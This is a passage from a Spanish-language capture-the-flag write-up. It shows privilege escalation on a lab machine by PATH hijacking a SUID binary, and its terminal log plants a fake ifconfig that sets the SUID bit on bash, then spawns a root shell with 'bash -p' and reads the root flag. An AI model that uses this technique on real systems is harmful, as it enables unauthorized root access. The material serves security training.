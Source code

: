 Como podemos analizar, el binario ejecuta los comandos `ifconfig, fdisk -l, du -h`.

En este punto podemos realizar `PATH Hijacking` ya que el binario llama a los comandos de forma relativa y no absoluta.

Creamos un archivo `ifconfig`{: .filepath} en `/tmp` con nuestro código *(añadiendo el bit SUID a la bash)*, cambimos la variable de entorno `PATH` para que comience a buscar los binarios por `/tmp`{: .filepath} y ejecutamos el binario ganando privilegios sobre la bash *(bash -p)*.

Listamos la root flag.

```bash
bash-4.1$ echo "chmod u+s /bin/bash" > ifconfig
bash-4.1$ cat ifconfig
chmod u+s /bin/bash
bash-4.1$ ls -l /bin/bash
-rwxr-xr-x 1 root root 864208 Jan 17  2010 /bin/bash


bash-4.1$ echo $PATH
/sbin:/usr/sbin:/bin:/usr/bin
bash-4.1$ export PATH=/tmp:$PATH
bash-4.1$ echo $PATH
/tmp:/sbin:/usr/sbin:/bin:/usr/bin

bash3-4.1$ ls -l /bin/bash
-rwsr-xr-x 1 root root 864208 Jan 17  2010 /bin/bash
bash3-4.1$ bash -p
bash-4.1# id
uid=479(apache) gid=416(apache) euid=0(root) groups=0(root),416(apache)
bash-4.1# cd /root
bash-4.1# ls
Desktop  Documents  drakx  healthcheck  healthcheck.c  root.txt  sudo.rpm  tmp
bash-4.1# cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          

Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b

bash-4.1#
```

Hope it helps!